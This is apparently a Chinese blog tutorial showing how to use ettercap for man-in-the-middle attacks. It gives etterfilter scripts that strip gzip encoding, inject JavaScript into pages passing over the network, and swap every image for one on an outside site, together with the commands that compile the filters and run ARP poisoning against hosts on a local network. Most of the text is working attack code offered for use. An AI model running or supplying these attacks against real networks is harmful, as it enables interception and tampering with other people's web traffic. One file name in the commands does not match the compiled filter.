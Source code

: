 ## 向网页注入代码

该功能可以实现向网页中注入特定的代码.

1.编写一个过滤脚本,下面的脚本名为`lyshark.txt`,内容如下.

```shell
# 拦截受害者发送的请求，将报文压缩方式由gzip降级为不压缩
if (ip.proto == TCP && tcp.dst == 80) {
    if (search(DATA.data, "Accept-Encoding")) {
           pcre_regex(DATA.data,"(Accept-Encoding:).*([\r\n])","$1 identity$2");
           msg("chage encoding");
    }
}

# 对于服务器响应，向head中注入js
if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "<head>")) {
        replace("<head>","<head><script>alert('hello lyshark')</script>");
    }
}
```

需要注意,这里要对请求头的`Accept-Encoding进行篡改`,否则响应默认使用gzip编码的,这样我们直接注入明文js是无效的,将编码方式降级为Identity,服务端会返回明文报文,同时客户端也不会再对报文进行一次解码.

2.编译成ettercap可以识别的二进制的二进制文件.

```shell
root@kali:~#  etterfilter lyshark.txt -o lyshark.ef
```

3.使用ettercap加载此脚本,欺骗全网段可以使用`///`代表.

```
ettercap -i eth0 -T -F ig.ef -M ARP:remote -w network.pcap /192.168.1.2// /192.168.1.1//
```

## 替换页面数据

1.以下脚本可实现将页面中所有`img src=`相关的图片全部替换成,指定网址中的图片.

```shell
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!"); 
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("img src=", "img src=\"http://www.mkdirs.com/lyshark.jpg\" ");
   replace("IMG SRC=", "img src=\"http://www.mkdirs.com/lyshark.jpg\" ");
   msg("Filter Ran.\n");
}
```

2.编译这个文件.

```shell
etterfilter exe.filter -o exe.ef
```

3.使用ettercap调用过滤脚本发动ARP攻击毒化目标主机的ARP缓存

```shell
ettercap -Tq -i wlan0 -F exe.ef -M arp:remote /192.168.1.9/  /192.168.1.1/
```



文章作者：[lyshark](http://www.cnblogs.com/lyshark/)